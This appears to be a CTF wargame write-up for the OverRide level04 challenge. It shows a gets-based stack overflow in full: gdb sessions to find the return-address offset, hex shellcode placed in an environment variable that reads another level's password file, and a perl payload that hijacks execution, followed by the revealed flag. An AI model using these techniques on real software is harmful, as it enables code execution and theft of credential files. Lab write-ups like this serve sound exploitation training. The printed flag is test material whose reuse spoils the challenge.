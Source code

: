 # level04

The program uses `gets` function to read stdin without checking size.

## Step 1. Calculate offset to overwrite `eip`
```assembly
level04@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble main" level04
[...]
   0x08048757 <+143>:	lea    eax,[esp+0x20]
   0x0804875b <+147>:	mov    DWORD PTR [esp],eax
=> 0x0804875e <+150>:	call   0x80484b0 <gets@plt>
[...]
```
```
level04@OverRide:~$ gdb -q level04
(gdb) set follow-fork-mode child
(gdb) break *0x0804875e
Breakpoint 1 at 0x804875e
(gdb) run
Starting program: /home/users/level04/level04
[New process 1952]
Give me some shellcode, k
[Switching to process 1952]

Breakpoint 1, 0x0804875e in main ()
(gdb) info registers eax
eax            0xffffd670	-10640
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804875e in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd700, ebp at 0xffffd708, edi at 0xffffd704, eip at 0xffffd70c
(gdb) print 0xffffd70c - 0xffffd670
$1 = 156
```
The program calls `fork` to create a new process, then its child process (pid == 0) calls `gets` to read stdin. We used `set follow-fork-mode child` to let GDB follow the child process and got offset `156` by calculating `eip - eax`.

## Step 2. Store the shellcode in the environment variable
```c
#include <stdio.h>

int main(void)
{
	printf("0x%08x\n", getenv("SHELLCODE"));
}
```
```
level04@OverRide:~$ export SHELLCODE=`perl -e 'print "\x90"x100 . "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`
level04@OverRide:~$ gcc -m32 /tmp/getenv.c -o /tmp/getenv
level04@OverRide:~$ /tmp/getenv
0xffffd845
```
We put the shellcode in the environment variable and get the address by running a little C program.

## Step 3. Build the payload
```
level04@OverRide:~$ perl -e 'print "A"x156 . pack("V", 0xffffd845)' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
